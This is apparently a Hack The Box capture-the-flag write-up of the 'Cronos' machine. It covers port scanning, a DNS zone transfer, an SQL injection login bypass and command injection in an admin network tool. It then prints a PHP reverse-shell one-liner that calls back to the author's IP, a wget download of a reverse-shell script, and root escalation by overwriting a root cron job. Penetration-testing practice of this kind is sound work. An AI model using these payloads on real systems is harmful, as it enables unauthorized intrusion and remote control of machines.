 # HTB - Cronos

#### Ip: 10.10.10.13
#### Name: Cronos
#### Rating: Medium

----------------------------------------------------------------------

![Cronos.png](../assets/cronos_assets/Cronos.png)

### Enumeration

As always, lets begin enumerating this box with an Nmap scan covering all TCP ports. When doing CTFs like this I like to add the `--min-rate 10000` flag to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.13 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 12:32 CDT
Nmap scan report for 10.10.10.13
Host is up (0.084s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
```
Ok interesting. We have the classic ports 22 and 80 combo so frequently found on Linux CTFs, but also we see DNS port 53 open. While not unheard of by anymeans, it's also not very common either, and will likely be what I first focus on.

Let's further enumeratie the open ports using the `-sC` and `-sV` flags to use default scripts and enumerate versions, along with the `-T4` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ sudo nmap -sC -sV -T4 10.10.10.13 -p 22,53,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 12:36 CDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.29 seconds
```

This didn't find anything too juicy for us. SSH is a pretty safe and well built protocol, so not many vulnerabilities there. It looks like we've got Apache 2.4.18 on pert 80/http landing on Apache's default "It Works" page. 

Let's take a quick look at DNS before turning our attention to http.

Going out on a limb based on past experience with HTB machines, their typical hostname format is box-name.htb. There are exceptions to this (sometimes AD boxes will just be HTB.local, etc), but first thing I'm going to try is a zone transfer using cronos.htb and the ip:

![dns.png](../assets/cronos_assets/dns.png)

Nice! Were successfully able to do a zone transfer and get a few more targets to investigate. 

After adding all of these to my `/etc/hosts file`, my immediate attention goes to admin.cronos.htb. Let's check that out.

![admin_login.png](../assets/cronos_assets/admin_login.png)

I'm met with just a simple login page. Checking out the source code for this page using `ctrl + u` doesn't yield anything juicy, and I'm unable to login with the standard weak credentials like admin:admin, admin:password, admin:cronos, root:root, etc. 

Let's try throwing some SQL injections to bypass the login at it. It took a bit a playing around, but in the end one of the most classic login bypasses worked for me: `' or 1=1-- - ` logged me in where I found this interesting feature:

![net_tool.png](../assets/cronos_assets/net_tool.png)

Let's intercept a request using BurpSuite to look more closely at what's going on here. 

![burp.png](../assets/cronos_assets/burp.png)

Ok cool, so it looks like the request has a command portion as well as a host. I know from the site that I can use both traceroute as well as ping as commands. I wonder if I can issue other common linux commands here? 

Sending the request to Repeater in Burp, I remove the default 8.8.8.8 address and see if I can get execution of other commands:

```text
command=id&host=
```

Nice! Looking at the response, we have execution here:

![execution.png](../assets/cronos_assets/execution.png)

Let's see if we can try something more malicious now.

### Exploitation

Going to www.revshells.com I grab a php reverse shell one-liner to see if I can catch a reverse shell exploiting this execution.

I grab `php -r '$sock=fsockopen("10.10.14.20",443);exec("sh <&3 >&3 2>&3");'` and URL encode it (You can conveniently do this on revshells.com or simply paste it into Burp, highlight it and enter `ctrl + u` to URL encode)

After setting up a listener and sending the request, I get a callback to my machine as www-data.

![callback.png](../assets/cronos_assets/callback.png)

I can quickly stabilize this shell by issuing:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
And then grab the user.txt flag:

![user_flag.png](../assets/cronos_assets/user_flag.png)

### Privilege Escalation

Quick aside, HTB is such a great site and has been invaluable to my own learning and practice, but one small beef I have with them (especially older boxes like this one) is the clues they leave when naming the boxes. I believe they may be moving away from this, but with a name like Cronos, my first thoughts when it comes to privesc is checking out cron-jobs on the machine. It's clever and all, but I would prefer a more black-box, not knowing what I'm walking into type experience.

Ok rant over, back to work. Lets see if we can see any interesting cron-jobs:

Interesting:

![crontab.png](../assets/cronos_assets/crontab.png)

Looks like this file is being run every minute with root permissions. Let's do a little more investigation here, and see if we can write to this file:

```text
www-data@cronos:/var/www/laravel$ ls -la artisan
ls -la artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
```

Sweet, looks like all we need to do here is inject a php reverse shell into this file, set up a listener and wait for our root shell to arrive. Let's do it.

First I need to transfer from my machine to Cronos a copy of php-reverse-shell.php, after updating the script to reflect my Ip and port I'll be listening on:

![php_shell.png](../assets/cronos_assets/php_shell.png)

Then I set up a Python http.server with `python -m http.server 80` and grab the file using wget:

```text
www-data@cronos:/var/www/laravel$ wget http://10.10.14.20/php-reverse-shell.php
<ravel$ wget http://10.10.14.20/php-reverse-shell.php                        
--2023-04-27 21:55:28--  http://10.10.14.20/php-reverse-shell.php
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5521 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.39K  --.-KB/s    in 0.001s  

2023-04-27 21:55:28 (6.26 MB/s) - 'php-reverse-shell.php' saved [5521/5521]
```

From here all I need to do is set up my listener and overwrite the artisan file with my shell:

`www-data@cronos:/var/www/laravel$ cp php-reverse-shell.php artisan`

After waiting just a few seconds (may take up to one minute) I got a call back to my listener as root:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.13] 45270
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:56:01 up  6:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# whoami
root
# hostname
cronos
```
All that's left to do is grab the root.txt flag:

![root_flag.png](../assets/cronos_assets/root_flag.png)

And that's all she wrote! This was a fun box that reinforced some classic concepts. I enjoyed playing with DNS, the login bypass via SQLI, as well as exploiting the functionality of admin.cronos.htb to get RCE on the box. This is an older box that in my opinion should have been rated 'Easy', but I had a fun time with it nonetheless.

Thanks for following along!

-Ryan

----------------------------------------------------------------------------------------------------------------


